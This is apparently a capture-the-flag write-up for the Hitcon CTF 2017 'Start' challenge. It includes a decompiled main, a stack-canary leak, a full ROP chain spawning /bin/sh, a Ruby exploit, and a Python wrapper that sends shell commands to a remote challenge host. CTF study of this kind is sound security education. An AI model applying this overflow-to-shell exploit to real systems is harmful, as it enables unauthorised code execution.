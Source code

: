 ```yaml
---
layout: post
title: Hitcon CTF 2017 - Start
categories: ctf_hitcon2017
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```

{{ page.date | date: "%B %-d, %Y" }}


The given binary is static.

Checksec:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The main procedure is so simple:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-20h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  alarm(10LL, argv, envp);
  setvbuf(stdin, 0LL, 2LL, 0LL);
  setvbuf(stdout, 0LL, 2LL, 0LL);
  while ( read(0LL, &v4, 217LL) != 0 && (unsigned int)strncmp(&v4, "exit\n", 5LL) )
    puts(&v4);
  return 0;
}
```

If we have a leak of the canary we can overwrite the return address with the buffer overflow.

Sending 24 characters and newline the puts call will print out the canary (overwriting the last byte, but it is always 0).

It's time to build a rop chain.

I used ROPGadget to generate it but it was too long.

So i changed the chain a bit:

```python
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x000000000047a6e6) # pop rax ; pop rdx ; pop rbx ; ret
p += '/bin//sh'
p += p64(0x4141414141414141) # padding
p += p64(0x4141414141414141) # padding
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042732f) # xor rax, rax ; ret
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004005d5) # pop rdi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x0000000000443776) # pop rdx ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x0000000000468320) # add rax, 1 ; ret
p += p64(0x0000000000468e75) # syscall ; ret
```

Ok now we must build the exploit using pwntools-ruby:

```ruby
z = Sock.new '127.0.0.1', 31338;

#canary leak
z.sendline "A"*24 ;
z.recvline;
r = z.recvline;
canary = "\x00" + r[0..6];

#build payload
p = "a"*24 + canary + p64(0x6cc018); #0x6cc018 id rbp
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc080);
p += p64(0x000000000047a6e6);
p += '/bin//sh';
p += p64(0x4141414141414141);
p += p64(0x4141414141414141);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x000000000042732f);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004005d5);
p += p64(0x00000000006cc080);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x0000000000443776);
p += p64(0x00000000006cc088);
p += p64(0x000000000042740e);
p += p64(0x000000000042740e);
p += p64(0x0000000000468320);
p += p64(0x0000000000468e75);
z.send p;
z.recvline;
z.sendline "exit"; #go to 'ret'

#send command to the shell
z.sendline("uname -a");
print z.recv(5000)
```

After testing it in localhost with socat, i wrote a python script that I used to send the ruby exploit:

```python
from pwn import *

def run(cmd):
    expl = '''z = Sock.new '127.0.0.1', 31338;z.sendline "A"*24 ;r = z.recvline;r = z.recvline;canary = "\x00" + r[0..6];p = "a"*24 + canary + p64(0x6cc018) ;p += p64(0x00000000004017f7);p += p64(0x00000000006cc080);p += p64(0x000000000047a6e6);p += '/bin//sh';p += p64(0x4141414141414141);p += p64(0x4141414141414141);p += p64(0x0000000000475fc1);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x000000000042732f);p += p64(0x0000000000475fc1);p += p64(0x00000000004005d5);p += p64(0x00000000006cc080);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x0000000000443776);p += p64(0x00000000006cc088);p += p64(0x000000000042740e);p += p64(0x000000000042740e);p += p64(0x0000000000468320);p += p64(0x0000000000468e75);z.send p;z.recvline;z.sendline "exit"; z.sendline("''' + cmd + '''"); print z.recv(5000)'''

    sh = remote("54.65.72.116", 31337)
    sh.recvuntil("> ")
    sh.sendline(expl)
    print sh.recvall()


c = raw_input("> ")
while c != "q":
    run(c)
    c = raw_input("> ")
```

Now you can navigate the filesystem and get the flag.

